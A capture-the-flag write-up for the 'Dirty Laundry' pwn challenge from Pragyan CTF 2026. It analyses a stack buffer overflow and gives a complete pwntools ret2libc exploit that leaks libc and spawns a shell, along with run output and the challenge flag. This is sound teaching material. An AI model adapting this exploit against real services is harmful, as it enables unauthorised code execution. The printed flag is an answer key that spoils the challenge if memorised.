

# Dirty Laundry

**CTF/platform:** Pragyan CTF 2026

**Category:** PWN

**Difficulty:** Medium

**Description:** Classic ret2libc challenge with a buffer overflow in `vuln()`.

**Remote:** `ncat --ssl dirty-laundry.ctf.prgy.in 1337`

**Flag:** `p_ctf{14UnDryHASbEenSUCces$fU11YCOMP1e73d}`

## Reconnaissance

```
$ checksec --file=chal
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

No canary, no PIE, Partial RELRO → classic ret2libc.

## Analysis

The binary has a `vuln()` function with a buffer of **0x40 bytes** but reads **0x100 bytes** with `read()`, causing an overflow of 192 bytes.

The provided libc (2.35) and `ld-2.35.so` allow us to patch the binary for local debugging:

```bash
patchelf --set-interpreter ./ld-2.35.so --set-rpath . chal
```

### Gadgets

```
0x4011a7: pop rdi; pop r14; ret   (to control rdi)
```

## Vulnerability

- **Type**: Stack buffer overflow
- **Root cause**: `read(0, buf, 0x100)` in a buffer of `0x40` bytes
- **Impact**: Complete control of execution flow (RIP overwrite)

## Exploitation

### Strategy (ret2libc in 2 stages)

1. **Stage 1** — Libc leak: use `puts@PLT` to print `puts@GOT`, calculate libc base
2. **Stage 2** — Shell: call `system("/bin/sh")` with leaked libc

**Important detail**: NO `ret` for alignment. With 0 RETs it works; with 1+ it crashes.

### Exploit (`solve.py`)

```python
#!/usr/bin/env python3
"""
Dirty Laundry — PWN 500 — Pragyan CTF 2026
Flag: p_ctf{14UnDryHASbEenSUCces$fU11YCOMP1e73d}

Vulnerability: Buffer overflow in vuln() — buffer 0x40, read(0x100)
Technique:        ret2libc in 2 stages (leak puts@GOT → system("/bin/sh"))
"""
from pwn import *
import time

BINARY = './chal_patched'
LIBC   = './libc.so.6'
HOST   = 'dirty-laundry.ctf.prgy.in'
PORT   = 1337

context.binary = elf = ELF(BINARY)
libc = ELF(LIBC, checksec=False)

POP_RDI_R14 = 0x4011a7   # pop rdi; pop r14; ret
OFFSET      = 0x48        # 0x40 buffer + 0x8 saved rbp

def conn():
    if args.REMOTE:
        return remote(HOST, PORT, ssl=True)
    else:
        return process(BINARY)

p = conn()
p.recvuntil(b'Add your laundry:')

# --- STAGE 1: Leak puts@GOT ---
payload1  = b'A' * OFFSET
payload1 += p64(POP_RDI_R14)
payload1 += p64(elf.got['puts'])
payload1 += p64(0)                       # r14 (trash)
payload1 += p64(elf.plt['puts'])         # puts(puts@GOT)
payload1 += p64(0x40122a)               # return to main
payload1 = payload1.ljust(0x100, b'\x00')
p.send(payload1)

p.recvuntil(b'Laundry complete')
leak_raw = p.recvuntil(b'\n', drop=True)
puts_leak = u64(leak_raw.ljust(8, b'\x00'))
libc.address = puts_leak - libc.symbols['puts']
log.success(f'libc base: {hex(libc.address)}')

# --- STAGE 2: system("/bin/sh") ---
p.recvuntil(b'Add your laundry:')

payload2  = b'B' * OFFSET
payload2 += p64(POP_RDI_R14)
payload2 += p64(next(libc.search(b'/bin/sh\x00')))
payload2 += p64(0)                       # r14 (trash)
payload2 += p64(libc.symbols['system'])  # system("/bin/sh")
payload2 = payload2.ljust(0x100, b'\x00')
p.send(payload2)

time.sleep(0.5)
p.interactive()
```

### Execution

```
$ python3 solve.py REMOTE
[+] Opening connection to dirty-laundry.ctf.prgy.in on port 1337: Done
[+] libc base: 0x7f...
[*] Switching to interactive mode
$ cat flag.txt
p_ctf{14UnDryHASbEenSUCces$fU11YCOMP1e73d}
```

## Flag

```
p_ctf{14UnDryHASbEenSUCces$fU11YCOMP1e73d}
```

## Lessons Learned

- In libc 2.35 with gadget `pop rdi; pop r14; ret`, DO NOT add extra `ret` for alignment
- `patchelf` is essential for local debugging with custom libc
- The offset is always `buffer_size + 8` (saved rbp) in x86-64

---

## PoC

### Exploit Execution



*Screenshot showing successful exploit execution and flag capture.*
